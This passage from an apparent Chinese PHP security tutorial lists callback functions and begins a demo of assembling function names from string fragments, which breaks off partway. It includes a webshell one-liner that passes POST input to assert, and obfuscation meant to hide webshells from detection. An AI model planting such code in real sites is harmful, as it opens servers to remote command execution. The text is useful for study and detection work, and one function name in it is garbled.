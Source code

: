 <div align=center><img src="./images/3.png"></div>


## 回调函数组合
`PHP`中常用的回调函数:

```php
call_user_func_array()
call_user_func()
array_filter() 
array_walk()  
array_map()
array_reduce()
array_walk() 
array_walk_recursive()
filter_var() 
filter_var_array() 
uasort() 
uksort() 
registregister_shutdown_function()
register_tick_function()
forward_static_call_array(assert,array($_POST[x]));
```

 - `Demo1`

```php
<?php
	error_reporting(0);
	highlight_file(__FILE__);

	function h3rmesk($a, $b) {
		return "regist"."er_shut"."down_function";
	}

	class demo {
		public $name;  
		public function __construct($name="") {   
	        $this->name = $name;
	    }
		public function h3rmesk1t() {
			$qwer = substr_replace("xxser", $this->name, -3);
			$rewq = array('', $qwer);
			$cdfr = $rewq[1].chr('116');
			$tryj = preg_replace("/xx/", "", $cdfr);
			$bbgu = substr_replace("", $tryj, 0);
```